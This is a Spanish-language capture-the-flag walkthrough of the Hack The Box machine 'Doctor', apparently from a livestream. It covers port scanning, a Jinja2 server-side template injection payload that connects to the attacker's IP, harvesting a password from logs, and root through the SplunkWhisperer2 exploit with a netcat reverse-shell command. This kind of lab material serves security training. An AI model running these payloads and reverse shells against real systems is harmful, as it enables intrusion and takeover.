 # Doctor {-}

## Introduccion {-}

La maquina del dia se llama Doctor.

El replay del live se puede ver aqui

[![S4vitaar Doctor maquina](https://img.youtube.com/vi/kaHpsn1HLp4/0.jpg)](https://www.youtube.com/watch?v=kaHpsn1HLp4)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.209
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.209
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80,8089 10.10.10.209 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 80     | http          | Web, Fuzzing       |                      |
| 8089   | https splunkd | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.209
```

Es un Apache 2.4.41 en un Ubuntu. Vemos un email `info@doctors.htb` Podria ser un usuario y un dominio. Añadimos el dominio al `/etc/hosts`

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.209`, vemos una pagina de un cabinete de doctor. Navigamos un poco en la web pero no hay nada interesante.
Si entramos en la web por el dominio `http://doctors.htb` vemos una nueva pagina. Se esta aplicando virtual hosting. Esta pagina es un login.
El wappalizer nos dice que es un Flask en python.

Aqui de seguida pensamos en un **Template Injection**.

De primeras creamos un nuevo usuario en el panel de registro. 
Vemos que nuestra cuenta a sido creada con un limite de tiempo de 20 minutos. Nos loggeamos y vemos un boton con un numero 1.
Si pinchamos, vemos en la url `http://doctors.htb/home?page=1`. Miramos si se puede aplicar un LFI

```bash
http://doctors.htb/home/page=/etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd
http://doctors.htb/home/page=../../../../../../../../etc/passwd%00
http://doctors.htb/home/page=../../../../../../../../etc/passwd?
```

Aqui no vemos nada.

Hay un link en la pagina para redactar un nuevo mensaje.

```bash
Title: EEEEEEEEE
Content: Hola
```

Aqui vemos que el mensaje esta visible en la pagina.

> [ ! ] NOTAS: Tito nos habla de probar un RFI (Remote File Inclusion) que seria algo que probar pero nos adelanta que no funcciona en este caso.

Aqui miramos de Injectar etiquetas HTML y XSS pero no funcciona.
## Vulnerability Assessment {-}

### Server Side Template Injection {-}


```bash
Title: {{9*9}}
Content: {{2*3}}
```

Vemos que en esta parte no nos lo interpreta. Si miramos el codigo fuente, vemos que hay un link que esta en la url `http://doctors.htb/archive` y que esta
en beta testing.

Si vamos a la url en question, hay una pagina blanca pero si otra vez, miramos el codigo fuente, en este caso de la pagina `/archive`, podemos ver que hay 
un numero **81**. Quiere decir que en el directorio **archive** esta interpretando el **SSTI** de los mensajes.

El caso del SSTI nos permite injectar comandos a nivel de systema usando el systema de templating. Si vamos a la carpeta **Server Side Template Injection** de
la pagina de [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) podemos copiar la Injeccion
de Jinja2 **Exploit the SSTI by calling Popen without guessing the offset**





## Vuln exploit & Gaining Access {-}

### Ganando accesso con SSTI {-}

1. Nos ponemos en escucha por el puerto 443
1. Creamos un nuevo mensaje con el payload

    ```bash
    Title: {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    Content: TEST
    ```

1. Recargamos la url `http://doctors.htb/archive`

Boom... estamos en la maquina victima.

```bash
whoami
#Output
web

hostname -I
```

Somos web y estamos en la maquina victima. Hacemos el tratamiento de la TTY.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Userpivoting {-}

```bash
cd /home
grep "$sh" /etc/passwd
cd /root
id
```

Aqui podemos ver que hay usuarios splunk y shaun y que estamos en el grupo `adm`. Podriamos visualisar los logs

```bash
cd /var/log
grep -r -i "pass"
grep -r -i "pass" 2>/dev/null
```

Vemos en el **apache2/backup** que hay una peticion POST para resetear una contraseña `Guitar123`

```bash
su shaun
Password: Guitar123

cat /home/shaun/user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
cd /
ls -l
cd /opt
```

Aqui vemos un directory splunkforward. Nos hace pensar que teniamos un puerto 8089 abierto con un splunkd.
Si vamos a esta url `https://10.10.10.209:8089` vemos un servicio splunkd.

Aqui podemos tirar de un exploit en el github de [cnotin](https://github.com/cnotin/SplunkWhisperer2) que permite hacer un
Local o un Remote privilege escalation. En este caso utilizaremos el Remoto.

```bash
git clone https://github.com/cnotin/SplunkWhisperer2
cd SplunkWhisperer2
ls
python3 PySplunkWhisperer2_remote.py
```

aqui vemos como se utiliza. Intentamos primeramente enviar una traza ICMP a nuestra maquina para ver si funcciona.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. lanzamos el exploit para enviar una traza ICMP

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.7"
    ```

Vemos que recibimos la traza. Ahora nos mandamos una reverse shell

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit para entablar una reverse shell

    ```bash
    python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.7 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash 10.10.14.7 443"
    ```

La conneccion esta entablada.

```bash
whoami
#Output
root
```
